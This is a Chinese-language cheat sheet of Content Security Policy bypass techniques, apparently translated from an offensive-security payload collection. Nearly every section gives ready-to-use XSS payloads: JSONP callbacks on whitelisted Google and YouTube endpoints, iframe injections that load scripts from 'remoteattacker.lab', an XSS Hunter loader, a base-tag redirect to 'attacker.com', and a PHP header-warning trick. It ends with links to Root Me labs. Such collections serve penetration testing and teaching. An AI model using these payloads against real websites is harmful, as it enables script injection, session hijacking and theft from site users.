 # 内容安全策略绕过

> 内容安全策略（CSP）是一种安全功能，旨在防止网页应用程序遭受跨站脚本攻击（XSS）、数据注入攻击以及其他代码注入漏洞。它通过指定哪些内容来源（如脚本、样式、图片等）可以在网页上加载和执行来实现这一目标。

## 概述

- [CSP检测](#csp-detection)
- [利用JSONP绕过CSP](#利用jsonp绕过csp)
- [绕过CSP default-src](#绕过csp-default-src)
- [绕过CSP内联eval](#绕过csp-内联eval)
- [绕过CSP unsafe-inline](#绕过csp-unsafe-inline)
- [绕过CSP script-src self](#绕过csp-script-src-self)
- [绕过CSP script-src data](#绕过csp-script-src-data)
- [绕过CSP nonce](#绕过csp-nonce)
- [绕过由PHP发送的CSP头](#绕过由php发送的csp头)
- [实验](#实验)
- [参考文献](#参考文献)

## CSP检测

在[https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com)和文章[如何使用Google的CSP评估器绕过CSP](https://websecblog.com/vulns/google-csp-evaluator/)中检查CSP。

## 利用JSONP绕过CSP

**需求**：

- CSP: `script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';`

**载荷**：

使用CSP中列出的白名单来源的回调函数。

- Google搜索: `//google.com/complete/search?client=chrome&jsonp=alert(1);`
- Google账户: `https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)`
- Google翻译: `https://translate.googleapis.com/$discovery/rest?version=v3&callback=alert();`
- YouTube: `https://www.youtube.com/oembed?callback=alert;`
- [Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
- [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

```js
<script src="//google.com/complete/search?client=chrome%26jsonp=alert(1);"></script>
```

## 绕过CSP default-src

**需求**：

- CSP类似 `Content-Security-Policy: default-src 'self' 'unsafe-inline';`,

**载荷**：

```js
http://example.lab/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//remoteattacker.lab/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;
```

```js
script=document.createElement('script');
script.src='//remoteattacker.lab/csp.js';
window.frames[0].document.head.appendChild(script);
```

来源: [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

## 绕过CSP内联eval

**需求**：

- CSP `inline` 或 `eval`

**载荷**：

```js
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

来源: [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

## 绕过CSP script-src self

**需求**：

- CSP类似 `script-src self`

**载荷**：

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

来源: [@akita_zen](https://twitter.com/akita_zen)

## 绕过CSP script-src data

**需求**：

- CSP类似 `script-src 'self' data:` 如官方[Mozilla文档](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)中警告的那样。

**载荷**：

```javascript
<script src="data:,alert(1)">/</script>
```

来源: [@404death](https://twitter.com/404death/status/1191222237782659072)

## 绕过CSP unsafe-inline

**需求**：

- CSP: `script-src https://google.com 'unsafe-inline';`

**载荷**：

```javascript
"/><script>alert(1);</script>
```

## 绕过CSP nonce

**需求**：

- CSP类似 `script-src 'nonce-RANDOM_NONCE'`
- 带有相对链接的导入JS文件: `<script src='/PATH.js'></script>`

**载荷**：

- 注入一个base标签。

  ```html
  <base href=http://www.attacker.com>
  ```

- 在网站脚本所在路径托管自定义js文件。

  ```ps1
  http://www.attacker.com/PATH.js
  ```

## 绕过PHP发送的CSP头

**需求**：

- PHP通过`header()`函数发送的CSP

**载荷**：

在默认的`php:apache`镜像配置中，当响应的数据已经写入时，PHP无法修改头部。这通常发生在PHP引擎触发警告时。

以下是几种生成警告的方法：

- 1000个$_GET参数
- 1000个$_POST参数
- 20个$_FILES

如果警告被配置为显示，你应该会看到这些：

- **警告**: `PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in Unknown on line 0`
- **警告**: `Cannot modify header information - headers already sent in /var/www/html/index.php on line 2`

```ps1
GET /?xss=<script>alert(1)</script>&a&a&a&a&a&a&a&a...[重复添加&1000次&a]&a&a&a&a
```

来源: [@pilvar222](https://twitter.com/pilvar222/status/1784618120902005070)

## 实验

- [Root Me - CSP绕过 - 内联代码](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
- [Root Me - CSP绕过 - 非ce](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
- [Root Me - CSP绕过 - 非ce 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce-2)
- [Root Me - CSP绕过 - 悬挂标记](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
- [Root Me - CSP绕过 - 悬挂标记 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)
- [Root Me - CSP绕过 - JSONP](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

## 参考文献

- [Airbnb – 当绕过JSON编码、XSS过滤器、WAF、CSP和Auditor时变成了八个漏洞 - Brett Buerhaus (@bbuerhaus) - 2017年3月8日](https://buer.haus/2017/03/08/airbnb-when-bypassing-json-encoding-xss-filter-waf-csp-and-auditor-turns-into-eight-vulnerabilities/)
- [D1T1 - 我们打破了所有的CSP - Michele Spagnuolo和Lukas Weichselbaum - 2017年6月27日](http://web.archive.org/web/20170627043828/https://conference.hitb.org/hitbsecconf2017ams/materials/D1T1%20-%20Michele%20Spagnuolo%20and%20Lukas%20Wilschelbaum%20-%20So%20We%20Broke%20All%20CSPS.pdf)
- [在Twitter上触发CSP绕过的XSS - wiki.ioin.in(原文链接) - 2020年4月6日](https://www.buaq.net/go-25883.html)